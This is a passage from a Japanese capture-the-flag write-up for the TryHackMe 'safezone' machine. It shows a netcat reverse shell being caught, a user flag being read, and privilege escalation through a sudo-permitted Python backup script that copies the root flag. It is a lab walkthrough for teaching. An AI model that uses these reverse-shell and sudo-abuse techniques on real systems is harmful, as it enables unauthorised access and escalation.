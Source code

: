 リバースシェル取得成功！

```shell
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.2.22.182] from (UNKNOWN) [10.10.229.219] 48570
sh: 0: can't access tty; job control turned off
$ 
```

```shell
yash@safezone:~$ ls -al
total 40
drwx------ 5 yash yash 4096 Mar 29  2021 .
drwxr-xr-x 4 root root 4096 Jan 29  2021 ..
-rw------- 1 yash yash    5 Mar 29  2021 .bash_history
-rw-r--r-- 1 yash yash  220 Jan 29  2021 .bash_logout
-rw-r--r-- 1 yash yash 3771 Jan 29  2021 .bashrc
drwx------ 2 yash yash 4096 Jan 29  2021 .cache
drwx------ 3 yash yash 4096 Jan 29  2021 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 29  2021 .local
-rw-r--r-- 1 yash yash  807 Jan 29  2021 .profile
-rw-rw-r-- 1 yash yash   38 Jan 30  2021 flag.txt
```

```shell
yash@safezone:~$ cat flag.txt
THM{c29.............................}
```

## 権限昇格３

```shell
yash@safezone:~$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

/root/bk.py を実行できるが、パーミッションが無いので内容は不明。

何が何やら分からないが、とりあえず実行してみる。

```shell
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /tmp/root.txt
Enter Password: password

yash@safezone:~$ ls -al /tmp
total 48
drwxrwxrwt 10 root root 4096 May 10 17:21 .
drwxr-xr-x 23 root root 4096 Mar 29  2021 ..
drwxrwxrwt  2 root root 4096 May 10 13:46 .ICE-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .Test-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .X11-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .XIM-unix
drwxrwxrwt  2 root root 4096 May 10 13:46 .font-unix
-rwxr-xr-x  1 yash yash   74 May 10 17:14 aaa.sh
prw-r--r--  1 yash yash    0 May 10 17:21 f
-rw-r--r--  1 root root   38 May 10 17:21 root.txt
drwx------  3 root root 4096 May 10 13:46 systemd-private-6cb4cca3c34c4ad79a881429b548d02a-apache2.service-ZdPucP
```